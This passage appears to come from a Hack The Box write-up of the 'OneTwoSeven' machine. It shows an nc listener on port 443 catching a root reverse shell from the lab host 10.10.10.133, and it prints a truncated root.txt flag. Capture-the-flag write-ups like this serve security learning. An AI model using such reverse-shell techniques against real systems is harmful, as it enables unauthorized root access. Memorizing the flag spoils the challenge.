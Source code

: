 
It hangs on `Setting up telnet (0.17-42)`.

But I’ve got a shell at my `nc` listener:

    
    
    root@kali# nc -lvnp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.133.
    Ncat: Connection from 10.10.10.133:51224.
    root@onetwoseven:/# id
    uid=0(root) gid=0(root) groups=0(root)
    

From there, I can grab `root.txt`:

    
    
    root@onetwoseven:~# cat root.txt 
    2d380a25...
    

[](/2019/08/31/htb-onetwoseven.html)


